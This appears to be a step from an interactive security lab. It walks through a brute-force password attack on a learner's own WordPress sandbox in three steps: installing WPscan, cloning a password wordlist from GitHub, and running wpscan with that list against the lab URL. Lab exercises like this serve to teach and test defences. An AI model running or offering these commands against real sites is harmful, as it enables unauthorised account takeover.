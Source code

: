 ## **Introduction Brute-Force Attack**
---

## **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
## Step 1:
### Download the WPscan using the command:

```sh
gem install wpscan{{execute}}
```
<br></br>
## Step 2:
### Clone the crack.txt file which includes a list of password from Github using the command:
```sh
git clone https://github.com/tonywong586/CrackList.git{{execute}}
```
<br></br>
## Step 3:
### Use the following command to enforce the Brute-force attack
```sh
wpscan --url https://2886795313-8000-simba11.environments.katacoda.com/ --passwords crack.txt{{execute}}
```